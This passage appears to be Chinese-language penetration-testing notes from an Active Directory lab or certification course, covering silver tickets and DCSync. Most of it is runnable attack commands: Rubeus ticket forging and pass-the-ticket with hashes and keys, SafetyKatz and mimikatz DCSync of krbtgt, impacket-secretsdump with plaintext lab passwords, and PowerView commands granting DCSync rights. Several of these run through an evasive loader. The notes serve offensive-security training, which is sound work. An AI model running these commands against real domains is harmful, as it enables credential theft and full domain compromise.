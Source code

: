 ```
PS C:\Tools> klist 
```
- 存取測試
```
iwr -UseDefaultCredentials http://web04
```
### Rubeus
``` cmd
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:rpcss/dcorp-dc.dollarcorp.moneycorp.local /rc4:1be12164a06b817e834eb437dc8f581c /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```
- rc4 : machine account hash 
## Domain Controller Synchronization
>[!NOTE]
>DCSync 是一種濫用 Active Directory 複寫機制的攻擊：攻擊者在取得足夠的權限（或被賦予複寫權限）後，向域控制器模擬「域複寫」請求，藉此讓 DC 回傳帳號資料（包含 NTLM hash、Kerberos 密鑰等敏感認證資訊），用來竊取域憑證或建立長期存取。

>[!WARNING]
>當有權限做domain(HTB.local)做DACL (Discretionary Access Control List)的時候(以bloodhound就是WriteDACL)，就可以使用這招。

- 檢查有無Replication (DCSync) rights
``` powershell=
. C:\AD\Tools\PowerView.ps1
```
``` powershell
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx"}
```
- 如果有 Domain Admin權限，可以將使用者加入
``` 
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
- SafetyKatz : 單純拉出hash
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```
- mimikatz 
```
lsadump::dcsync /user:corp\dave
```
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```
- PowerView 
``` powershell
$SecPassword = ConvertTo-SecureString 'password123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\tonee', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity tonee -Rights DCSync
```
``` powershell
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "EGOTISTICAL-BANK,DC=local" -PrincipalIdentity svc_loanmgr -Rights DCSync
```
```
impacket-secretsdump htb.local/tonee:password123@10.129.95.210
```
